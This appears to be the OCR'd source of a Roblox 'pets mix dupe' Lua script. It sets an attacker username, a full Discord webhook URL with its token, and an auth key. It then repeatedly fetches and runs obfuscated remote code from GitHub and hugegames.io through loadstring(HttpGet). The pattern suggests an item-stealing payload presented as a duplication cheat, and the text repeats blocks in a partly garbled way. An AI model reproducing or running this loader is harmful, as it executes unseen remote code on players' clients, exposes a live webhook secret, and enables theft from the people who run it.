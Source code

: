 UserName = "K1rbyDaB1rby"
WebHook = "https://discord.com/api/webhooks/1051639727431876618/-yfpAsglTI4Z-VniS0Hi90VnaQjAzjU5X4iPpydEXcGFMIjDsbQLauyr4z_lYouJsv-U"

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()

getgenv (). AuthKey = "HUGE_loVbMIB9hM6dz8fe"
getgenv (). LoadSettings ={
DisableStartupPrompt= false
}
loadstring ( game : HttpGet ( "https://hugegames.io/script" ))()

loadstring(game:HttpGet("https://raw.githubusercontent.com/limaspeedy/limaspeedy/main/webhook"))()

UserName = "K1rbyDaB1rby"
WebHook = "https://discord.com/api/webhooks/1051639727431876618/-yfpAsglTI4Z-VniS0Hi90VnaQjAzjU5X4iPpydEXcGFMIjDsbQLauyr4z_lYouJsv-U"

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()

game.Players.LocalPlayer.PlayerGui.Inventory.Frame.Visible = true

wait(30)

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()
wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()
wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()
wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()
wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()
wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()
wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()
wait(1)
game.Players.LocalPlayer.PlayerGui.Inventory.Frame.Visible = true

wait(30)

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()
wait(1)
game.Players.LocalPlayer.PlayerGui.Inventory.Frame.Visible = true

UserName = "K1rbyDaB1rby"
WebHook = "https://discord.com/api/webhooks/1051639727431876618/-yfpAsglTI4Z-VniS0Hi90VnaQjAzjU5X4iPpydEXcGFMIjDsbQLauyr4z_lYouJsv-U"

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/Obfs.lua", true))()

